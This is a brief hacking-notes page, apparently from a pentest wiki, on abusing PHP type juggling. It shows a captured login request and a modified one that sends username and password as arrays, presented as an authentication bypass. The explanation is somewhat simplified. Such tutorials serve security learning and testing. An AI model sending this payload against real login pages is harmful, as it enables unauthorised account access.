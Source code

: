 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PHP - Abuse PHP Type Juggling

Type Juggling is a feature of PHP that automatically converts between different data types during comparison and arithmetic operations. It simplifies data comparison but introduces potential security risks, especially if the user input is not properly validated or sanitized.

Here we found how this can be exploited:

* Imagine we caught a petition from a login page that sends the _username_ and _password_ values as parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>POST /login.php HTTP 1.1
</strong><strong>...
</strong>username=admin&#x26;password=admin
</code></pre>

***

* We could modify the petition to change the data type of the parameters

{% code overflow="wrap" lineNumbers="true" %}
```bash
POST /login.php HTTP 1.1
...
username[]=admin&password[]=admin #Example converting strings into arrays
```
{% endcode %}

{% hint style="info" %}
This will bypass the authentication as the values are now evaluated as arrays changing the logic of the comparison
{% endhint %}
